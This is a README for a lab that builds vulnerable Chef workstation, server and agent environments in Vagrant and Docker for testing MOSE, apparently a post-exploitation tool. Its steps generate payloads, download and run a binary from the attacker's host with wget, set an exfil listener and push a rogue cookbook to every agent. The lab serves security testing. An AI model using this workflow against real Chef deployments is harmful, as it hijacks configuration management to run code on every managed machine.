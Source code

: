 
# chef-test-lab
Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment; it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```

### To run MOSE against the vagrant chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

### To run MOSE against the vagrant chef server:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

## Docker Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls a single agent, run the following command:
```
cd docker/basic && make run
```

### To run MOSE against the docker chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Wait for 15 minutes or so for the environment to start working. You can track the progress with this command: `while true; do sleep 2; docker logs basic-chef-workstation; done`. You will know it's done when you see this:
```
id:       mysql_pw
password: TheM0stS3cr3T!!!
user:     mysql
```
3. Generate a payload with MOSE: `./mose -c "touch /tmp/test.txt && echo test >> /tmp/test.txt" -t chef -f "${PWD}/payloads/chef-linux"` and be sure to answer `Y` when prompted.
4. Transfer the payload to the chef workstation container: `docker cp payloads/chef-linux basic-chef-workstation:/chef-linux` 
5. Run the payload: `docker exec -i basic-chef-workstation /bin/bash -c "echo 'n' | /chef-linux"`
6. Wait for 30 minutes or exec into the agent and kick off the payload manually: `docker exec -i basic-chef-agent-1 /bin/bash -c "chef-client"`
7. Observe that a file has been created on the agent in `/tmp`: `docker exec -i basic-chef-agent-1 /bin/bash -c "cat /tmp/test.txt"`

**Please note:**
The docker lab does not support transferring payloads to the target via the web server. You can however generate a payload with the `-f` parameter and transfer it via `docker cp`. 

To tear down the test environment, run the following command:
```
make destroy
```

## Credits
The chef server docker container is provided courtesy of this repo: https://github.com/c-buisson/chef-server

